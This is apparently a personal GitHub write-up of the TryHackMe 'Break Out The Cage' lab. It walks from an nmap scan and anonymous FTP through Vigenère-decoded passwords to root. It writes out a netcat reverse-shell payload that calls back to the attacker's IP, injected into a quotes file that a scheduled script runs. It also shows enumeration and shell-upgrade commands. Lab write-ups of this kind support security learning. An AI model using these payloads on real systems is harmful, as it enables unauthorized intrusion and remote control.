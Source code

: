 **<p align="center">TryHackMe: Break Out The Cage</p>**
---

<p align="center">
<img
src="https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Break-Out-The-Cage/Images/room%20icon.jpeg" alt="image alt" width="180" />
</p>

[![Day 29 of 30 – Hack Documentation Challenge](https://img.shields.io/badge/Day%2029%20of%2030-Hack%20Documentation%20Challenge-crimson?style=for-the-badge&logo=tryhackme)](https://tryhackme.com)

**Topic:** Web application pentesting

**Completed:** 8/13/2025

“Help Cage bring back his acting career and investigate the nefarious goings on of his agent!”

<p align="center">+++++++++</p>

Beginning with an `nmap -sV -sC` scan, I identified three open TCP ports:
```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             396 May 25  2020 dad_tasks
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Nicholas Cage Stories
```

Two things stood out immediately:
- Anonymous FTP login was enabled.

- Port 80 hosted a site called “Nicholas Cage Stories.”

Checking out the HTTP service brought me to a static web page where Mr. Cage appeared to share updates with his fans. The page didn’t have working navigation links, but its source code included a few images and hardcoded references that felt worth keeping in mind for later.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Break-Out-The-Cage/Images/Screenshot%201.png)

Since anonymous login was allowed, I connected to the FTP server and found a single file named `dad_tasks`. I downloaded it using:
```
get dad_tasks
```

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Break-Out-The-Cage/Images/Screenshot%202.png)

Opening the file showed Base64-encoded text. After decoding, the result still looked scrambled, indicating it was likely encrypted or encoded again.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Break-Out-The-Cage/Images/Screenshot%203.png)

To further investigate the scrambled output from the `dad_tasks` file, I ran it through an online cipher identifier. The tool recognized the text as a Vigenère cipher, which I was able to decode successfully. The plaintext not only contained some funny “Dad’s Tasks,” but also revealed Weston’s password.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Break-Out-The-Cage/Images/Screenshot%204.png)

Using the recovered credentials, I logged into Weston’s account via SSH:
```
ssh weston@10.201.18.31
```

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Break-Out-The-Cage/Images/Screenshot%205.png)

I began basic enumeration to identify other local users and check for potential privilege escalation paths.

To list accounts with home directories:
```
cat /etc/passwd | grep "/home"
```

To see what commands Weston could run as root:
```
sudo -l
```

The output revealed Weston could run `/usr/bin/bees` as root. Executing it displayed the following broadcast message:
```
"AHHHHHHH THEEEEE BEEEEESSSS!!!!!!!!"
```

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Break-Out-The-Cage/Images/Screenshot%206.png)

I checked group memberships using:
```
id
```

This confirmed Weston was also part of the `cage` group.

To search for files owned by this group, I ran:
```
find / -group cage 2>/dev/null
```

Among the results, one file stood out:
`/opt/.dads_scripts/spread_the_quotes.py`, a Python script responsible for the periodic broadcast quotes.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Break-Out-The-Cage/Images/Screenshot%207.png)

Opening `/opt/.dads_scripts/spread_the_quotes.py` revealed a short Python script that reads all lines from `/opt/.dads_scripts/.files/.quotes`, randomly selects one, and then uses the `wall` command to broadcast it to all logged-in users.


This means that anything placed into `.quotes` would be executed by `wall`, giving us a potential code execution vector.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Break-Out-The-Cage/Images/Screenshot%208.png)

Knowing I could inject commands, I looked up a Pentestmonkey Netcat reverse shell payload and set up a listener on my attack machine on port `4563`:
```
nc -lvnp 4563
```

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Break-Out-The-Cage/Images/Screenshot%209.png)

Opening `/opt/.dads_scripts/.files/.quotes` showed a long list of quotes, matching the ones broadcasted every few minutes by the script.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Break-Out-The-Cage/Images/Screenshot%2010.png)

To hijack the broadcast process, I overwrote the `.quotes` file with my payload:
```
echo "hello;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.201.18.126 4563 >/tmp/f" > /opt/.dads_scripts/.files/.quotes
```

`hello;` being a harmless filler to ensure the rest of the command runs cleanly. The rest creates a FIFO, connects back to my listener, and attaches an interactive shell.

After a moment, the scheduled script executed and I caught a reverse shell, now running as the user `cage`.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Break-Out-The-Cage/Images/Screenshot%2011.png)

To make the reverse shell more usable, I upgraded it to a fully interactive TTY:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

On the user home directory lay a `email_backup` folder & a `Super_Duper_Checklist` file. The `Super_Duper_Checklist file` included the first THM flag.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Break-Out-The-Cage/Images/Screenshot%2012.png)

Reading through the emails in `email_backup` revealed clues for escalating privileges, confirming that Cage was not running as root.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Break-Out-The-Cage/Images/Screenshot%2013.png)

One email in particular, `email_3`, contained a string that looked like a ciphered password and repeated the word  `face` way too many times.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Break-Out-The-Cage/Images/Screenshot%2014.png)

Using an online cipher identifier, I determined the string was encrypted with a Vigenère cipher. The key was `face`, and decoding it revealed the root user’s password.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Break-Out-The-Cage/Images/Screenshot%2015.png)

Using the `su -` to change to the root user, along with the discovered password, successfully gave full root privileges.

In the root directory, there was another `email_backup` folder containing several more emails.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Break-Out-The-Cage/Images/Screenshot%2016.png)

Reading through the emails we find that Cage was in fact not being paranoid about his agent, he was in fact praying for his downfall. Amongst the theatrics was the root flag!

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/Break-Out-The-Cage/Images/Screenshot%2017.png)

<p align="center">+</p>

**Lessons Learned**

This room was really intriguing and a lot of fun to work through. It taught me about Vigenère ciphers and also introduced me to the `wall` command, what it is, how it works, and how it can be leveraged for command execution. Another room that highlighed the importance of careful enumeration, analyzing encoded data, and thinking creatively for privilege escalation, showing how multiple techniques can be combined to move from a low-privilege user to root.

<p align="center">+++++++++</p>

🔒 Out of respect for the learning experience, I’ve chosen not to share the flag answers directly. Instead, I’ve documented my full process to support both others and myself in understanding the vulnerability.

**Resources**:
- [TryHackMe's Break Out The Cage Room](https://tryhackme.com/room/breakoutthecage1)
- [Cipher Identifier](https://www.dcode.fr/cipher-identifier)
